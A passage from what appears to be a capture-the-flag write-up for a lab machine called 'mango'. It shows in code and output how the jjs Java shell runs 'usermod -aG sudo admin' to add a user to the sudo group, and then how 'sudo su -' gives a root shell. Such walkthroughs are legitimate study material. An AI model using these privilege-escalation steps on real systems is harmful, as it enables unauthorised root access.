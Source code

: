 The last way of exploitation is to add the admin user to the sudoers group. This way the admin user will be recognised as a sudoer and is able to privilege escalate into a root user easily. 

```
admin@mango:/tmp$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('usermod -aG sudo admin').waitFor();
0
jjs> exit()
```

However, in the current session of the admin user, the sudoers group is not yet updated to include the admin user.

```
admin@mango:/tmp$ sudo su -
[sudo] password for admin: 
admin is not in the sudoers file.  This incident will be reported.
```

What we have to do is to exit the current session and privilege escalate into the admin user again before we privilege escalate into the root user.

```
mango@mango:~$ su admin
Password: 
$ bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/mango$ sudo su -
[sudo] password for admin: 
root@mango:~# 
```
